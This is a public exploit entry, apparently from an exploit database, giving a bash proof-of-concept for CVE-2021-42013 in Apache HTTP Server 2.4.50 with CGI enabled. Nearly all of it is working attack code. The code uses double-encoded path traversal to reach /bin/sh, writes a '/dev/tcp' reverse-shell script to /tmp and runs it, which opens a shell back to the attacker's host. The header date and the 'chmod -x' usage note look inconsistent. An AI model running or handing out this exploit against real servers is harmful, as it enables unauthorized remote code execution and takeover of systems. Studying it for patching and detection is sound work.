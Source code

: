 # Exploit: Apache HTTP Server 2.4.50 - Remote Code Execution (RCE) (2)
# Credits: Ash Daulton & cPanel Security Team
# Date: 24/07/2021
# Exploit Author: TheLastVvV.com
# Vendor Homepage:  https://apache.org/
# Version: Apache 2.4.50 with CGI enable
# Tested on : Debian 5.10.28
# CVE : CVE-2021-42013

```

#!/bin/bash

echo 'PoC CVE-2021-42013 reverse shell Apache 2.4.50 with CGI'
if [ $# -eq 0 ]
then
echo  "try: ./$0 http://ip:port LHOST LPORT"
exit 1
fi
curl "$1/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh" -d "echo Content-Type: text/plain; echo; echo '/bin/sh -i >& /dev/tcp/$2/$3 0>&1' > /tmp/revoshell.sh" && curl "$1/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh" -d "echo Content-Type: text/plain; echo; bash  /tmp/revoshell.sh"

#usage chmod -x CVE-2021-42013.sh
#./CVE-2021-42013_reverseshell.sh http://ip:port/ LHOST LPORT
            
```
